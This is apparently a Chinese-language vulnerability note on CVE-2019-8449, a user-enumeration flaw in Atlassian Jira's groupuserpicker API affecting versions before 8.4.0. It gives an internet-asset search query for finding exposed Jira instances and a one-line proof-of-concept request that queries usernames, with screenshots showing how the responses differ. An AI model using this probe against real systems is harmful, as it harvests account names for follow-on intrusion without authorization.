 # Atlassian Jira groupuserpicker 用户信息枚举漏洞 CVE-2019-8449

## 漏洞描述

Atlassian Jira groupuserpicker接口存在用户信息枚举漏洞，攻击者通过漏洞可以获取应用中的使用者账户名称，来进行进一步渗透

## 漏洞影响

<a-checkbox checked>Atlassian Jira  <8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385-20220430124430820.png)

验证POC

```java
/rest/api/latest/groupuserpicker?query=admin&maxResults=50&showAvatar=false
```

当用户存在时

![img](../../../.vuepress/public/img/1651293805295-29a3241f-8a24-4b82-8733-9a680679b79a.png)

当用户不存在时

![img](../../../.vuepress/public/img/1651293830754-ba6faf0c-0874-49bd-8ccf-1ae7cdb0581d.png)
